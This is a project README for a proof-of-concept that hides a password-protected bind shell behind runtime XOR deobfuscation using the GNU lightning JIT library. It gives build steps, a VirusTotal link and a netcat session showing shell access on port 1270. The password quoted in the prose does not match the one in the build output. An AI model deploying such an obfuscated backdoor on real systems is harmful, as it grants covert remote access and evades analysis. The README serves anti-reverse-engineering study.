 # JIT Obfuscation Proof of Concept

In my adventures I came across [GNU lightning](https://www.gnu.org/software/lightning/). Lightning generates assembly at runtime and is great for implementing a just-in-time compiler. A really neat example is [this](https://blog.dubbelboer.com/2012/11/18/brainfuck-jit.html) Brainfuck JIT compiler by Erik Dubbelboer.

Well, I thought that was pretty neat and wanted to play with it a lightning a little. However, I didn't want to code up my own fullblown VM. That would require some serious effort and I'm not *that* interested. So I wrote this little toy that xor deobfuscates a function in memory using lightning. The the bindshell is the same one I used in my [Anti-Reversing Techniques](https://leanpub.com/anti-reverse-engineering-linux) book. You can see more [here](https://github.com/antire-book).

If you don't want to compile the project yourself then you can find it on VirusTotal:

https://www.virustotal.com/#/file/1c149f2f467e0e178bb819e3a862de016239db9e4116402d11aa5030b20a54c2/detection


## Dependencies
The code was written and tested on Ubuntu 16.04 **x64**. I can't promise it works anywhere else. Furthermore, the project depends on:

1. musl
2. cmake
3. lightning

You can install musl and cmake the following command

```sh
sudo apt-get install cmake musl-dev musl-tools
```

There is no package for lightning so you'll have to download and compile it yourself.

## Compiling
To compile create a build directory, run cmake, and the type make. For example:

```sh
albinolobster@ubuntu:~/jit_obfuscation$ cd build/
albinolobster@ubuntu:~/jit_obfuscation/build$ cmake ..
-- The C compiler identification is GNU 5.4.0
-- Check for working C compiler: /usr/bin/cc
-- Check for working C compiler: /usr/bin/cc -- works
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Detecting C compile features
-- Detecting C compile features - done
-- The CXX compiler identification is GNU 5.4.0
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/jit_obfuscation/build
albinolobster@ubuntu:~/jit_obfuscation/build$ make
Scanning dependencies of target stripBinary
[ 16%] Building CXX object stripBinary/CMakeFiles/stripBinary.dir/src/stripBinary.cpp.o
[ 33%] Linking CXX executable stripBinary
[ 33%] Built target stripBinary
Scanning dependencies of target xorFunction
[ 50%] Building CXX object xorFunction/CMakeFiles/xorFunction.dir/src/xorFunction.cpp.o
[ 66%] Linking CXX executable xorFunction
[ 66%] Built target xorFunction
Scanning dependencies of target addLDS
[ 66%] Built target addLDS
Scanning dependencies of target trouble
[ 83%] Building C object trouble/CMakeFiles/trouble.dir/src/trouble.c.o
[100%] Linking C executable trouble
The bind shell password is: rsMzp7gqOME8J5KOAVeDnmNUQb4z7pKU
[ 99%] Bind shell function obfuscated!
[100%] Built target trouble
albinolobster@ubuntu:~/jit_obfuscation/build$ 
```

## Executing the program
Simply run the "trouble" binary like so:

```sh
albinolobster@ubuntu:~/jit_obfuscation/build$ ./trouble/trouble
```

This will cause the program to begin listening on port 1270.

## Connecting to the bind shell
You'll need the bind shell password in order to successfully connect. The password is output when you compile the program. In the output above the bind shell password is "wulg2FZo17WKoZ6e5Eyyet2BNBP1ppRE". Here is an example of connecting to the bindshell:

```sh
albinolobster@ubuntu:~$ nc 127.0.0.1 1270
rsMzp7gqOME8J5KOAVeDnmNUQb4z7pKU
pwd
/home/albinolobster/jit_obfuscation/build
ls -l
total 40
-rw-rw-r-- 1 albinolobster albinolobster 12151 Aug 22 05:35 CMakeCache.txt
drwxrwxr-x 4 albinolobster albinolobster  4096 Aug 22 05:35 CMakeFiles
-rw-rw-r-- 1 albinolobster albinolobster  5499 Aug 22 05:35 Makefile
-rw-rw-r-- 1 albinolobster albinolobster  1711 Aug 22 05:35 cmake_install.cmake
drwxrwxr-x 3 albinolobster albinolobster  4096 Aug 22 05:35 stripBinary
drwxrwxr-x 3 albinolobster albinolobster  4096 Aug 22 05:35 trouble
drwxrwxr-x 3 albinolobster albinolobster  4096 Aug 22 05:35 xorFunction
exit
albinolobster@ubuntu:~$
```

## License
BSD-3-Clause
